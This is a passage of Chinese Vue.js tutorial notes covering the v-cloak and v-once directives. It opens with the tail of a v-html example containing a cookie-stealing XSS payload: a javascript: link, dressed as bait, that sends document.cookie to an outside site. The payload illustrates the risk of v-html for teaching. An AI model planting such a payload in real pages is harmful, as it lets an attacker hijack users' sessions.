 ```html
      str: "<h3>你好啊！</h3>",
      str2: '<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
    },
  });
</script>
```

### v-cloak

1. 本质是一个特殊属性，Vue 实例创建完毕并接管容器后，会删掉 v-cloak 属性。
2. 使用 css 配合 v-cloak 可以解决网速慢时页面展示出 `{{xxx}}` 的问题。

```html
<div id="root">
  <h2 v-cloak>{{name}}</h2>
</div>

<script
  type="text/javascript"
  src="http://localhost:8080/resource/5s/vue.js"
></script>

<script type="text/javascript">
  console.log(1);
  Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

  new Vue({
    el: "#root",
    data: {
      name: "尚硅谷",
    },
  });
</script>
```

### v-once

1. v-once 所在节点在初次动态渲染后，就视为静态内容了。
2. 以后数据的改变不会引起 v-once 所在结构的更新，可以用于优化性能。

```html
<div id="root">
  <h2 v-once>初始化的n值是:{{n}}</h2>
  <h2>当前的n值是:{{n}}</h2>
  <button @click="n++">点我n+1</button>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false; //阻止 vue 在启动时生成生产提示。

  new Vue({
    el: "#root",
    data: {
      n: 1,
    },
  });
</script>
```
